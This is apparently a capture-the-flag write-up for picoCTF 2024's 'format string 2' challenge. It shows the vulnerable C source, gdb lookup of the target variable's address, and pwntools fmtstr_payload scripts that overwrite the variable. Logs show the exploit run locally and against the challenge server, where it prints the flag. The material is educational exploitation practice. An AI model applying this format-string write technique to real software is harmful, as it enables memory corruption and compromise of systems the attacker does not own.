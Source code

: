 ### format string 2

Author: SkrubLawd
#Medium #Binary_exploitation #picoCTF2024 #format_string #browser_web_shell 
#### Description

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack! Download the binary [here](https://artifacts.picoctf.net/c_rhea/14/vuln). Download the source [here](https://artifacts.picoctf.net/c_rhea/14/vuln.c).

Additional details will be available after launching your challenge instance.
Connect with the challenge instance here: `nc rhea.picoctf.net 63761`

##### Solution:
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}

```

```css
┌──(kali㉿kali)-[~/Downloads/format_string2]
└─$ ./vuln            
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
ttt
Here's your input: ttt
sus = 0x21737573
You can do better!   

```


The source code is below. If you change the variable sus from 0x21737573 to 0x67616c66, the flag will be displayed.

```c
#include <stdio.h>

// int sus = 0x21737573;
int sus = 0x67616c66;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

```css
┌──(kali㉿kali)-[~/Downloads/format_string2]
└─$ ./test           
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
lll
Here's your input: lll
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{format_string2}
```

Since printf (buf) is executed, FSB can be used.

To execute FSB, prepare the offset for printf execution, the address you want to write to, and the content you want to write.

The offset when executing printf is accessing the instance and increasing %n$p, n=14 becomes the offset of the format string. 

```css
┌──(kali㉿kali)-[~/Downloads/format_string2]
└─$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%1$p
Here's your input: 0x7ffc871d5ce0
sus = 0x21737573
You can do better!

┌──(kali㉿kali)-[~/Downloads/format_string2]
└─$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%14$p
Here's your input: 0x7024343125
sus = 0x21737573
You can do better!     
```

The address I want to write to is the SUS address, so when I check it with gdb, it is 0x404060.

```css
(gdb) p &sus
$1 = (<data variable, no debug info> *) 0x404060 <sus>
```
The value you want to write is 0x67616c66.
Use pwntools' fmtstr_payload to create a string that will be fed to printf. 

payload
```python
from pwn import *
context.arch = 'amd64'

payload = fmtstr_payload(14, {0x404060: 0x67616c66}, write_size='byte')
# generated_payload = b'%102c%16$llnc%17$hhn%5c%18$hhn%245c%19$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00'
chall = process('./vuln')
log.info(chall.recvline())
chall.sendline(payload)
chall.interactive()
```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/format_string2]
└─$ python3 test1.py                              
[+] Starting local process './vuln': pid 55036
/home/kali/Downloads/myenv/lib/python3.12/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
[*] Switching to interactive mode
[*] Process './vuln' stopped with exit code 0 (pid 55036)
Here's your input:                                                                                                       c    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{format_string2}
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

or
```python
from pwnlib.fmtstr import *
context.arch='amd64'
print(fmtstr_payload(14, {0x404060:0x67616c66}, numbwritten=0, write_size='byte').decode('utf-8'))
```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/format_string2]
└─$ python3 test2.py|./vuln 
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input:                                                                                                       c                                                                                                                                                                                                                                                        aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{format_string2}

```

online on server

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/format_string2]
└─$ python3 test2.py| nc rhea.picoctf.net 63761
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input:                                                                                                      uc                                                                                                                                                                                                                                                        aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}  
```